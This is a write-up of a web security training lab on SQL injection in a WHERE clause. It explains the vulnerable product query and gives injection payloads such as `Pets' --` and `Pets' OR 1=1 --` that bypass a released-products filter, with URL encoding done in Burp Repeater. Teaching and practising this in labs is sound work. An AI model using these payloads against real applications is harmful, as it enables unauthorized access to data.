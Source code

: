 # Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Known information

- vulnerable to SQL injection
- parameter: URL argument category
- Query string used
- Result: Page contains filtered view of the category, showing only released products
- Goal: Show unreleased products

## Query

Query is provided as

```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

The category string is likely taken directly from the URL argument

```sql
SELECT * FROM products WHERE category = '<PARAM>' AND released = 1
```

## Steps

### Find baseline

Find out what is the baseline, select Pets

--> 3 entries shown

### Ignore released part of query

Need to inject something that causes the 'AND released = 1' part to be ignored, for example by injecting a comment that ignores all the remaining part of the query.

```sql
SELECT * FROM products WHERE category = 'Pets' -- AND released = 1
```

inject `Pets' --`

This results in this query

```sql
SELECT * FROM products WHERE category = 'Pets' -- ' AND released = 1
```

Note the single quote after the `--`, which is added by the application. Due to the comment we don't have to deal with it.

#### URL encode

The URL needs to be properly encoded. When using a browser, this will be done automatically by the browser but is not shown in the URL bar. When using Burp Repeater the URL encoding needs to be done manually with `Ctrl+U`

![url encode in burp](img/url_encode.png)

==> 4 entries shown

### Show all products regardless of category

To show all products, regardless of category or released status, inject a string that evaluates to `TRUE` for each entry in the table.

```sql
Pets' OR 1=1 --
```

![Result](img/result.png)
